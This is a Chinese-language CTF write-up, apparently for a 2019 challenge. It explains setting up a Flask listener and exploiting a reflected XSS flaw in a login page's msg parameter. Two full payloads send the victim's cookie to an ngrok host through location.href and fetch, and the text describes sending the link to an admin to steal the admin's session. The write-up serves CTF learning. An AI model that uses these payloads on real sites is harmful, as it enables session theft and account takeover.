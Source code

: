 作為 Web 初學者，簡單說明一下如何快速自建Server。
> 作業環境 Python 3.6

```python
$ sudo pip3 install flask
$ sudo pip3 install flask_cors
$ python3 app.py
```

code 可參考 [app.py](https://github.com/MacacaHub/CTF-writeups/blob/master/AIS3%20EOF%20CTF%202019/how2meow/app.py)

利用登入頁面的 XSS 漏洞測試取得 local 端的 cookie，payload 方面要設定跳轉的 public IP，用 [`escape`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/escape) 或是 [`fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API)  擷取 cookie，另外還要注意若要字串相加 必須 "+" 改成 "%2B" (URL encode) 不然會被瀏覽器判定成空白導致執行失敗，或是可以改用`concat()`，以下提供兩種應用方式。
 
```html
https://message.macacahub.tw/login.php?msg=<script>location.href="https://<tunnel_id>.ngrok.io/?c="%2Bescape(document.cookie)</script>

https://message.macacahub.tw/login.php?msg=<script>fetch('https://<tunnel_id>.ngrok.io/?c='.concat(document.cookie))</script>
```

![ ](./pic/2-4.png)

一旦成功偷到 local 端的 cookie，我們就能直接登入把上面的「完整網址」當作笑話餵給admin，模仿對方點擊網址將 admin 的 session 傳到我們的 server，LOL🤣🤣🤣。
 